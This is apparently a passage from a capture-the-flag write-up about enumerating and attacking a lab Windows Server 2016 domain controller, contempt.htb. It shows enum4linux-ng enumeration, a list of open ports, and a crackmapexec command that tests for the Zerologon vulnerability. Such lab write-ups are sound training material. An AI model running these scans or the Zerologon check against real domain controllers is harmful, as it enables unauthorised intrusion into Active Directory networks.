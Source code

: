 First thing that we would like to do is to enumerate the domain name, the machine name and if we have access to some features or even some informations.

To do so I ran [enum4linux-ng](https://github.com/cddmp/enum4linux-ng). It allows us to try different credentials such as Anonymous or Guest logins.

```bash
enum4linux-ng -A 10.129.235.160
```

![](https://i.imgur.com/KWg68On.png)

Let's add those FQDNs to our hosts file like so : 

```text
10.129.235.160 dc01 dc01.contempt.htb contempt.htb
```

We can note multiple things from here :
- Computer name : dc01
- Domaine name : contempt.htb
- The domain SID (could be useful for some attack paths)
- OS Version : Windows 2016 10.0

Windows Server 2016 ? 🤔
This is not brand new lmao.

#### Foothold

When I was attacking the machine for the first time, I ran too quickly the scan and the machine was not fully up. So I did not see all the ports above. This is what I tought the attack surface was :

```text
Open 10.129.233.228:53
Open 10.129.233.228:88
Open 10.129.233.228:135
Open 10.129.233.228:139
Open 10.129.233.228:389
Open 10.129.233.228:445
Open 10.129.233.228:464
Open 10.129.233.228:593
Open 10.129.233.228:636
Open 10.129.233.228:2179
Open 10.129.233.228:3268
Open 10.129.233.228:3269
Open 10.129.233.228:9389
```

I did not have HTTPS and WinRM.

As we saw earlier, we cannot log into the machine using default credentials or anonymously. But within an Active Directory environment, we quickly need some usernames and credentials in order to start exploiting it.

So I decided to try some quick wins, since this is some 2016 server. If I am lucky enough it may work and get some interesting access. Here is the very first command that I ran.

```bash
crackmapexec smb dc01.contempt.htb -M zerologon
```
